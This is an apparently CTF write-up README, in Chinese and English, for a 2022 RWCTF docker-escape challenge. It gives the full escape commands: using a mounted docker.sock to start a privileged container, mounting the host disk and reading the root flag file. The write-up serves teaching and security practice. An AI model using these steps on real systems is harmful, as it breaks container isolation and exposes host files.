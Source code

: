 ## About

这是2022年第三届RWCTF体验赛的容器逃逸题目, 题目作者是 [zh-explorer][1]

## Description of the challenge

Do you want to be a docker escaper? So you need to be patient. It takes minutes for me to get a docker ready for you. I can’t make it faster without kvm, but I think you can do it locally.
from: SpaceSkyNet

## Weriteup

仔细观察user-data中的docker启动命令

```bash
docker run -i -m 128m -v /var/run/docker.sock:/s
```

使用-v 将docker daemon socket映射到了容器中, 因此我们看可以通过 socket 控制容器外的docker, 直接使用-v映射flag或者启动特权容器逃逸即可

```bash
sed -i "s/http:\/\/archive.ubuntu.com/http:\/\/mirrors.aliyun.com/g" /etc/apt/sources.list
sed -i "s/http:\/\/security.ubuntu.com/http:\/\/mirrors.aliyun.com/g" /etc/apt/sources.list
apt update
DEBIAN_FRONTEND="noninteractive" apt-get -y install docker.io
docker -H unix:///s run -i --privileged ubuntu bash
mkdir /tmp/a
mount /dev/sda1 /tmp/a
chmod 777 /tmp/a/root/flag
cat /tmp/a/root/flag
```

## Deploy

题目部署脚本相关可以参考 [deploy][1] 文件夹

## Reference Link

[1]: https://github.com/zh-explorer
[2]: ./deploy	"题目部署脚本"
[]: 

